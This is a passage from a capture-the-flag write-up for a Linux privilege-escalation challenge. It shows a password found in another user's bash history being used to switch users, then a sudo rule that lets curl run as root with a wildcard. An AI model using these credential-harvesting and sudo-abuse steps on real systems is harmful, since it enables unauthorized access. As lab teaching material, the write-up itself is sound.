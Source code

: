 # Curly Fries
Uh-oh, our friend Fry has been typing at the keyboard and running all kinds of commands, but his fingers are dirty from all the curly fries he has been eating!!

Escalate your privileges and run the program in the root user's home directory.

# Flag

# Solution
We are logged in as `user`. We can see the bash history of `fry`:

```bash
user@curlyfries:/home/fry$ ls -la
total 20
drwxr-sr-x    1 fry      fry           4096 May 24 16:39 .
drwxr-xr-x    1 root     root          4096 May 24 16:39 ..
-rw-r--r--    1 fry      fry            118 May 24 16:39 .bash_history
-rwxr-xr-x    1 fry      fry           3850 May 24 16:39 .bashrc
-rw-r--r--    1 fry      fry             17 May 24 16:39 .profile
user@curlyfries:/home/fry$ cat .bash_history
pwd
whoami
cd /tmp
date
sshpas
sshpass
sshpass -p iLoveCurlyFriesYumYumInMyTumTum ssh fry@localhost
sl
ls
ls -la
exit
```

We can switch to `fry` user using the credentials:

```bash
user@curlyfries:/home/fry$ su fry
Password: 
fry@curlyfries:~$ sudo -l
User fry may run the following commands on
        curly-fries-17b275f72d0fa9cf-b9d75b-6lrdm:
    (root) NOPASSWD: /usr/bin/curl 127.0.0.1\:8000/health-check*
```

